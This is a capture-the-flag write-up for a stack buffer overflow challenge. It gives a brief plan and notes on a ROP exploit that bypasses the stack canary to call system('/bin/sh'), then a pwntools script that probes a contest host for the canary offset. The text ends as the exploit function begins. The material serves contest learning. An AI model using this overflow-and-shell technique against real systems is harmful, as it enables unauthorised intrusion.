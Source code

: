 **Files:** vuln

**Plan:**  
From the challenge description, this challenge looks lika a simple buffer overflow chall. Performing buffer overflow shall give us the flag

**Notes:**  
I crafted a Return-Oriented Programming (ROP) exploit for a stack-based buffer overflow challenge as after testing the binary I found that it is protecting the stack canary. So the script bypasses the stack canary protection and executes `system("/bin/sh")` to get a shell. Here is the python script:

```python
#!/usr/bin/env python3
from pwn import *
from time import sleep

# Target
HOST, PORT = "babybof.chal.imaginaryctf.org", 1337

def find_exact_offset():
    """
    Probe different offsets to identify where the stack canary sits.
    Uses a marker to detect if/when we overwrite it.
    """
    print("Finding exact canary offset...")
    for offset in range(40, 60, 8):
        try:
            p = remote(HOST, PORT)
            output = p.recvuntil(b"enter your input").decode()

            # Parse canary
            canary = None
            for line in output.splitlines():
                if "canary:" in line:
                    canary = int(line.split(":")[1].strip(), 16)
                    break
            if not canary:
                p.close()
                continue

            # Build test payload
            test_payload = b"A" * offset + b"TESTMARK"
            p.sendline(test_payload)
            response = p.recvall(timeout=2).decode()

            print(f"Offset {offset}: Original canary = 0x{canary:x}")
            if f"canary: 0x{canary:x}" in response:
                print(f"  ✓ Canary preserved at {offset}")
            elif "canary: 0x4b52414d54534554" in response:  # "TESTMARK"
                print(f"  ⚠ Canary overwritten at {offset}")
            else:
                corrupted = [l for l in response.splitlines() if "canary:" in l]
                if corrupted:
                    print(f"  ✗ Canary corrupted: {corrupted[0]}")

            p.close()
        except Exception as e:
            print(f"Error at {offset}: {e}")
            continue

def exploit():
    """
    Build a ROP chain to call system("/bin/sh").
    Payload layout:
```